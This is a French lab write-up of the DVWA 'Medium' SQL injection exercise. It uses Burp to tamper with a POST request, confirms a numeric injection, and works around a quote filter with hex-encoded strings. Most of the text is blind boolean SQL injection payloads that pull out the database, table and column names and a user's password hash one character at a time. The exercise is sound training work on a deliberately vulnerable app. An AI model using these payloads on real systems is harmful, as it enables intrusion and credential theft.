







# Niveau "Medium"

Pour ce niveau "Medium", le champ de type `<input>` devient un champ `<select>` :



De plus, la requête n'est plus de type **`GET`** mais de type **`POST`** :



Pour se simplifier la vie, on transforme à la volée le champ `<select>` en champ `<inpu/>` \(via Burp ici\) :



On confirme ensuite l'injection ainsi que son type, numérique :



On détermine également le nom de la base :



```sql
1 AND ORD(MID(DATABASE(),1,1)) = 100  // d
1 AND ORD(MID(DATABASE(),2,1)) = 118  // v
1 AND ORD(MID(DATABASE(),3,1)) = 119  // w
1 AND ORD(MID(DATABASE(),4,1)) = 97   // a
```

La prochaine action est de récupérer les noms des tables, mais il semble que le caractère `"'"` soit filtré :



Il nous faut donc trouver un moyen de contourner cette limitation. Pour cela la chaîne de caractères sera écrite en notation hexadécimale \(`0x64767761` est équivalent à `dvwa`\) :



Soit pour la table `guestbook` :

```sql
1 AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 0,1),1,1)) = 103  // g 
1 AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 0,1),2,1)) = 117  // u
1 AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 0,1),3,1)) = 101  // e
1 AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 0,1),4,1)) = 115  // s
1 AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 0,1),5,1)) = 116  // t
1 AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 0,1),6,1)) = 98   // b
1 AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 0,1),7,1)) = 111  // o
1 AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 0,1),8,1)) = 111  // o
1 AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 0,1),9,1)) = 107  // k
```

Puis pour la table `users` :

```sql
1 AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 1,1),1,1)) = 117 // u 
1 AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 1,1),2,1)) = 115 // s
1 AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 1,1),3,1)) = 101 // e
1 AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 1,1),4,1)) = 114 // r
1 AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 1,1),5,1)) = 115 // s
```

Ensuite, on retrouve le nombre de colonnes de la table `users` \(`0x7573657273` pour `users`\) :

```sql
1 AND ORD(MID((SELECT COUNT(column_name) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x64767761),1,1)) = 56  // 8 
```

Puis les noms des colonnes de cette table avec ici la colonne `user` :

```sql
1 AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x64767761 LIMIT 3,1),1,1)) = 117  // u 
1 AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x64767761 LIMIT 3,1),2,1)) = 115  // s
1 AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x64767761 LIMIT 3,1),3,1)) = 101  // e
1 AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x64767761 LIMIT 3,1),4,1)) = 114  // r
```

Ainsi que la colonne `password` :

```sql
1 AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x64767761 LIMIT 4,1),1,1)) = 112  // p 
1 AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x64767761 LIMIT 4,1),2,1)) = 97   // a
1 AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x64767761 LIMIT 4,1),3,1)) = 115  // s
1 AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x64767761 LIMIT 4,1),4,1)) = 115  // s
1 AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x64767761 LIMIT 4,1),5,1)) = 119  // w
1 AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x64767761 LIMIT 4,1),6,1)) = 111  // o
1 AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x64767761 LIMIT 4,1),7,1)) = 114  // r
1 AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x64767761 LIMIT 4,1),8,1)) = 100  // d
```

Finalement, le mot de passe de l'utilisateur Pablo \(équivalent à `0x7061626C6F`\) :

```sql
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),1,1)) = 48    // 0 
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),2,1)) = 100   // d
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),3,1)) = 49    // 1
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),4,1)) = 48    // 0
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),5,1)) = 55    // 7
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),6,1)) = 100   // d
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),7,1)) = 48    // 0
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),8,1)) = 57    // 9
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),9,1)) = 102   // f
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),10,1)) = 53   // 5
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),11,1)) = 98   // b
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),12,1)) = 98   // b
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),13,1)) = 101  // e
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),14,1)) = 52   // 4
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),15,1)) = 48   // 0
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),16,1)) = 99   // c
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),17,1)) = 97   // a
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),18,1)) = 100  // d
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),19,1)) = 101  // e
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),20,1)) = 51   // 3
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),21,1)) = 100  // d
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),22,1)) = 101  // e
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),23,1)) = 53   // 5
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),24,1)) = 99   // c
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),25,1)) = 55   // 7
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),26,1)) = 49   // 1
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),27,1)) = 101  // e
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),28,1)) = 57   // 9
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),29,1)) = 101  // e
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),30,1)) = 57   // 9
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),31,1)) = 98   // b
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),32,1)) = 55   // 7
```

Soit :


